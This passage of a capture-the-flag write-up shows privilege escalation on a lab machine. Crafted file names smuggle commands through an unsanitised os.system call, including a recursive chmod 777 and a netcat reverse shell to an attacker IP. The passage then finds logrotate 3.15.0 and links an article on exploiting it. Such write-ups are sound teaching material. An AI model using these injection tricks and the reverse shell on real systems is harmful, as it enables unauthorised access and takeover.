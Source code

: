 {{text("I found out that we have write permissions to the path that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>moodle_location</code> is pointing at. Because the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>os.system</code> call doesn't sanitize any of the file names, it is possible to exploit it.")}}

{{text("For example if we create a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>'|| whoami'</code>, it will pipe the file name as a normal command.")}}

{{text("I tested it, and it worked.")}}

{{image("../../static/writeups/plottedlms/images/000004.jpg")}}

{{text("Now we can abuse it to privilage escalate.")}}

{{text("We create a file that will grant us all the permissions to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/plot_admin</code> directory.")}}

{{console("echo "" > ''|chmod -R 777 .|''")}}

{{text("Since there is no <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.ssh</code> folder, we can't just steal a private key and log in. We need to get a reverse shell as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>plot_admin</code>.")}}

{{text("I created a file with the same reverse shell as before in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/plot_admin/</code>.")}}

{{console("echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.1.157 1235 >/tmp/f' > shell.sh")}}

{{text("And used the same trick to get it to execute.")}}

{{console("echo '' > ''|| bash shell.sh ||''")}}

{{text("After a minute, I got a connection back.")}}

{{image("../../static/writeups/plottedlms/images/000005.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("After downloading <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pspy64</code> onto the machine, I noticed that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>logrotate</code> is being run.")}}

{{text("I confirmed that by checking it's version.")}}

{{console("logrotate --version", "logrotate 3.15.0

    Default mail command:       /bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate.status
    ACL support:                no
    SELinux support:            no")}}

{{text("A quick search uncovers a article that teaches us how to exploit this version.")}}

{{link("https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b", "https://miro.medium.com/v2/5d8de952517e8160e40ef9841c781cdc14a5db313057fa3c3de41c6f5b494b19", "Linux PrivEsc with Logrotate Utility")}}
